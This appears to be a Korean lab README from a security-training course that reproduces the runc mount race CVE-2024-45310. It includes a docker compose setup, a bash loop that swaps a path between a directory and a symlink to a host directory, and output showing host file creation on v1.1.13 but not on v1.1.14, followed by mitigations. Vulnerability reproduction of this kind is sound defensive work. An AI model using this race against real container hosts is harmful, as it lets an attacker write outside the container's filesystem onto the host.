



# runc 마운트 레이스 취약점 (CVE-2024-45310)

**Contributors**

-   화이트햇 스쿨 4기 (32반) - [김동후 (@aaua1312)](https://github.com/aaua1312)


# runc 마운트 목적지 TOCTOU 레이스로 인한 호스트 파일/디렉터리 생성 (CVE-2024-45310)
`runc`는 OCI Runtime Specification에 따라 컨테이너를 생성하고 실행하는 저수준 컨테이너 런타임이다. Docker, containerd, Kubernetes 환경에서도 컨테이너 실행 경로에 포함될 수 있다.

`CVE-2024-45310`은 `runc`가 컨테이너 루트 파일시스템 내부에 마운트 목적지를 준비하는 과정에서 발생하는 TOCTOU(Time-of-check to time-of-use) 레이스 취약점이다. 취약 버전에서는 `SecureJoin`으로 안전한 경로를 계산한 뒤 실제 파일/디렉터리 생성 시 `os.MkdirAll`, `os.OpenFile(O_CREATE)` 같은 일반 경로 기반 API를 사용한다. 공격자가 그 사이에 경로 구성요소를 심볼릭 링크로 바꾸면, 생성 작업이 컨테이너 rootfs 밖의 호스트 경로로 이동할 수 있다.

공격자가 공유 볼륨 또는 마운트 목적지 경로를 제어할 수 있는 조건에서, 호스트 파일시스템의 임의 위치에 **0바이트 파일** 또는 **빈 디렉터리**를 만들 수 있다. 

## 환경 구성

본 환경은 `docker compose` 하나로 취약 환경 생성, 취약 버전 PoC 실행, 패치 버전 비교 검증까지 자동으로 수행되도록 구성하였다.

제출 폴더 구조는 다음과 같다.

```text
runc/CVE-2024-45310/
├── Dockerfile
├── docker-compose.yml
├── README.md
├── poc.sh
├── results/
│   └── .gitkeep
├── 1.png
├── 2.png
├── 3.png
```

각 파일의 역할은 다음과 같다.

```text
Dockerfile
```

`ubuntu:22.04` 기반 랩 이미지를 빌드한다. 이미지 빌드 과정에서 공식 `opencontainers/runc` 저장소의 `v1.1.13`, `v1.1.14` 태그를 각각 clone하고 `make runc`로 직접 빌드한다.

외부에서 미리 만들어진 취약 PoC 이미지를 가져와 사용하는 방식이 아니라, 제출 폴더의 `Dockerfile`과 `poc.sh`를 기준으로 재현 환경을 구성한다.

```text
docker-compose.yml
```

`docker compose up` 한 번으로 랩 컨테이너를 실행한다. `runc` 재현 실습에는 mount, rootfs, container runtime 관련 작업이 필요하므로 컨테이너는 `privileged` 모드로 실행된다.

```text
poc.sh
```

실제 PoC 코드이다. OCI bundle 생성, bind mount 설정, symlink race 수행, 취약 버전과 패치 버전 비교, 결과 파일 생성을 모두 담당한다.

```text
results/
```

실행 결과가 저장되는 디렉터리이다. 실행 후 다음 파일들이 생성된다.

```text
results/environment.txt
results/sanity.log
results/vulnerable.log
results/vulnerable.result
results/patched.log
results/patched.result
results/summary.txt
```

실제 Docker Compose 실행 화면은 다음과 같다.



## 취약 조건

`CVE-2024-45310`은 `runc`가 컨테이너 rootfs 내부에 mount destination을 준비하는 과정에서 발생하는 TOCTOU race condition 취약점이다.

영향 버전은 다음과 같다.

```text
runc <= 1.1.13
runc <= 1.2.0-rc.2
```

수정 버전은 다음과 같다.

```text
runc 1.1.14
runc 1.2.0-rc.3
```

취약 조건은 다음과 같다.

1. 공격자가 컨테이너의 volume 또는 mount 구성을 제어할 수 있어야 한다.
2. 공격자가 컨테이너 rootfs 내부의 특정 경로 구성요소를 디렉터리와 심볼릭 링크 사이에서 빠르게 교체할 수 있어야 한다.
3. 취약한 `runc`가 mount destination을 생성하는 시점에 해당 경로가 호스트 경로를 가리키는 심볼릭 링크 상태가 되어야 한다.

취약 버전에서는 `SecureJoin`으로 안전한 경로를 계산한 뒤, 실제 파일 또는 디렉터리 생성 시점에 일반 경로 기반 API가 다시 경로를 해석한다. 이 사이에 공격자가 중간 경로를 심볼릭 링크로 교체하면, rootfs 내부에 생성되어야 할 빈 파일 또는 빈 디렉터리가 rootfs 바깥 호스트 경로에 생성될 수 있다.

본 실습에서는 bind mount의 파일 destination 생성 경로를 사용해 rootfs 바깥 호스트 경로에 0바이트 파일이 생성되는지 확인한다.

## 재현 절차

깨끗한 환경에서 아래 명령을 그대로 실행한다.

```bash
cd runc/CVE-2024-45310
docker compose up --build --abort-on-container-exit --exit-code-from cve-2024-45310
```

이미 이전 실행 결과가 남아 있다면 아래 명령으로 초기화 후 다시 실행한다.

```bash
cd runc/CVE-2024-45310
docker compose down -v --remove-orphans
rm -rf results
mkdir -p results
touch results/.gitkeep
docker compose up --build --abort-on-container-exit --exit-code-from cve-2024-45310
```

실행이 완료되면 요약 결과를 확인한다.

```bash
cat results/summary.txt
```

취약 버전의 상세 결과는 다음 명령으로 확인한다.

```bash
cat results/vulnerable.result
```

패치 버전의 상세 결과는 다음 명령으로 확인한다.

```bash
cat results/patched.result
```

## PoC 코드

전체 PoC는 `poc.sh`에 포함되어 있다.

PoC의 전체 흐름은 다음과 같다.

```text
1. BusyBox 기반 최소 OCI rootfs 생성
2. runc spec 명령으로 config.json 생성
3. bind mount destination을 /race/point/pocfile-* 로 설정
4. rootfs/race/point 경로를 디렉터리와 심볼릭 링크 사이에서 반복 교체
5. 취약 버전 runc v1.1.13으로 컨테이너 실행
6. /cve-2024-45310-host-target/pocfile-* 생성 여부 확인
7. 패치 버전 runc v1.1.14로 동일 PoC 반복
8. 취약 버전과 패치 버전 결과를 results/summary.txt에 기록
```

핵심 레이스 코드는 다음과 같다.

```bash
while :; do
    rm -rf "${BUNDLE_DIR}/rootfs/race/point" 2>/dev/null || true
    mkdir -p "${BUNDLE_DIR}/rootfs/race/point" 2>/dev/null || true
    rm -rf "${BUNDLE_DIR}/rootfs/race/point" 2>/dev/null || true
    ln -sfnT "${TARGET_DIR}" "${BUNDLE_DIR}/rootfs/race/point" 2>/dev/null || true
done
```

위 코드는 `rootfs/race/point`를 다음 두 상태 사이에서 빠르게 교체한다.

```text
상태 1: rootfs/race/point = 일반 디렉터리
상태 2: rootfs/race/point = /cve-2024-45310-host-target 를 가리키는 심볼릭 링크
```

취약한 `runc v1.1.13`이 `/race/point/pocfile-*` mount destination을 생성하는 도중, `point`가 심볼릭 링크 상태가 되면 rootfs 내부가 아니라 rootfs 바깥의 `/cve-2024-45310-host-target/` 경로에 빈 파일이 생성된다.

패치 버전 `runc v1.1.14`에서는 같은 조건으로 레이스를 반복해도 호스트 경로에 `pocfile-*` 파일이 생성되지 않아야 한다.

## 실행 결과

실행 결과 요약은 다음과 같다.



`results/summary.txt`의 핵심 내용은 다음과 같다.

```text
[vulnerable: v1.1.13]
status=success
attempt=1
target=/cve-2024-45310-host-target/pocfile-4
mode=755 size=0 uid=0 gid=0 type=regular empty file

[patched: v1.1.14]
status=not_observed
attempts=300
target_dir=/cve-2024-45310-host-target
target_glob=/cve-2024-45310-host-target/pocfile-*
```

취약 버전과 패치 버전의 상세 결과는 다음 명령으로 확인하였다.

```bash
cat results/vulnerable.result
echo
cat results/patched.result
```

상세 결과 화면은 다음과 같다.



취약 버전 `runc v1.1.13`에서는 1번째 시도에서 호스트 측 경로에 빈 파일이 생성되었다.

생성된 파일은 다음과 같다.

```text
/cve-2024-45310-host-target/pocfile-4
```

파일 속성은 다음과 같다.

```text
mode=755
size=0
uid=0
gid=0
type=regular empty file
```

이는 컨테이너 rootfs 내부에 생성되어야 할 mount destination 파일이 symlink race로 인해 rootfs 바깥 호스트 경로에 생성되었음을 의미한다.

반면 패치 버전 `runc v1.1.14`에서는 동일한 PoC를 300회 반복했지만 호스트 경로에 `pocfile-*` 파일이 생성되지 않았다.

패치 버전 결과는 다음과 같다.

```text
status=not_observed
attempts=300
target_dir=/cve-2024-45310-host-target
target_glob=/cve-2024-45310-host-target/pocfile-*
```

따라서 본 실습에서는 다음 결과가 확인되었다.

```text
취약 버전 v1.1.13: 호스트 경로에 빈 파일 생성 성공
패치 버전 v1.1.14: 동일 조건에서 파일 생성 미발생
```

`patched.log`에는 레이스 과정에서 `no such file or directory`와 같은 `runc run failed` 로그가 남을 수 있다. 이는 PoC가 `rootfs/race/point`를 계속 지우고 만들고 심볼릭 링크로 교체하기 때문에 발생하는 정상적인 실패 로그이다. 패치 버전 검증에서 중요한 기준은 `/cve-2024-45310-host-target/pocfile-*` 파일이 생성되지 않는 것이다.


## 대응 방안

가장 확실한 대응은 `runc`를 수정 버전 이상으로 업데이트하는 것이다.

```text
runc 1.1.14 이상
runc 1.2.0-rc.3 이상
```

추가 완화 방안은 다음과 같다.

1. 신뢰할 수 없는 사용자가 임의의 volume 또는 mount 구성을 지정하지 못하도록 제한한다.
2. Kubernetes, Docker, containerd 환경에서 노드에 포함된 `runc` 버전을 함께 점검한다.
3. 가능한 경우 user namespace 또는 rootless container 실행 모델을 사용한다.
4. SELinux 또는 AppArmor 같은 LSM 정책을 강화한다.
5. privileged 컨테이너 사용을 최소화한다.
6. 컨테이너 실행 권한을 가진 사용자를 최소화한다.

## 환경 종료

실습이 끝난 뒤에는 다음 명령으로 환경을 정리한다.

```bash
docker compose down -v --remove-orphans
```

생성된 결과 파일까지 초기화하려면 다음 명령을 실행한다.

```bash
rm -rf results
mkdir -p results
touch results/.gitkeep
```

## 참고 자료

- NVD: CVE-2024-45310  
  https://nvd.nist.gov/vuln/detail/CVE-2024-45310
- GitHub Security Advisory: GHSA-jfvp-7x6p-h2pv  
  https://github.com/opencontainers/runc/security/advisories/GHSA-jfvp-7x6p-h2pv
- Openwall: CVE-2024-45310 runc advisory  
  https://www.openwall.com/lists/oss-security/2024/09/03/1
- opencontainers/runc v1.1.14 release  
  https://github.com/opencontainers/runc/releases/tag/v1.1.14